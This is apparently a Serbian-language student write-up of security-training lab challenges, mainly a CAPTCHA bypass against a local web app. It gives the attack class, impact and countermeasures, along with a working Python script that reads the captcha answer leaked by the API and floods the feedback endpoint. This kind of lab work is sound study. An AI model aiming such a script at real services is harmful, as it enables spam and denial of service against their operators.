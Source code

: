 ## 1) Saznati adminovu lozinku (pošto se nije potrudio da bude teška za otkriti:)

**Назив изазова у апликацији**: **Password Strength**

## 2) Zaobići CAPTCHA zaštitu protiv automatizovanog davanja review-a

**Назив изазова у апликацији**: **CAPTCHA Bypass**

**Класа напада**: DoS, лоша анти-аутомација

**Утицај**: Нападач брзо може послати велик број захтева и изазвати denial of service.
Нападач може поплавити базу података за фидбеком и попунити читав простор на диску.
Апликација има увећан лажни саобраћај (нарушена аналитика).

**Рањивости**: Решење капче се шаље у HTTP одговору. Капча се шаље у формату погодном
за рачунар да га брзо реши (у случају да се не шаље тачан одговор).

**Контрамере**:

1. Решење капче се не сме слати као одговор на захтев. Оно се чува у бази и пореди на бекенду.
2. Тај математички израз треба послати као слику где су симболи и позадина модификовани (шум, дисторција итд.) да их OCR не може препознати.

**Белешке**:

Текст могу добавити преко `document.getElementById("captcha")`.
У JS-у могу евалуирати користећи `eval(document.getElementById("captcha").textContent);`.

Кепча се добавља у `GET /rest/captcha/` захтеву.
Резултат захтева је:

```json
{
  "captchaId": 5,
  "captcha": "4*7+5",
  "answer": "33"
}
```

Тако да не морам ни да се трудим око евалуације, бекенд сам врати резултат.

Форма са кепчом се шаље на `POST /api/Feedbacks/` уз следеће податке:

```json
{
  "UserId": 22,
  "captchaId": 6,
  "captcha": "123",
  "comment": "123 (***.a)",
  "rating": 2
}
```

Тако да могу написати пајтон скрипту која ће спамовати фидбек:

```python
import requests
import json

def submit_fake_response():
    res = requests.get("http://localhost:3000/rest/captcha")

    captcha_payload = json.loads(res.content.decode("utf-8"))
    captcha_answer = captcha_payload['answer']
    captcha_id = captcha_payload['captchaId']
    payload = {
        "UserId":22,
        "captchaId":captcha_id,
        "captcha":str(captcha_answer),
        "comment":"spam (***.a)",
        "rating":2
    }

    requests.post("http://localhost:3000/api/Feedbacks", json=payload)


for i in range(100):
    submit_fake_response()
```

## 3) Otkriti i skinuti easter egg

Easter Egg
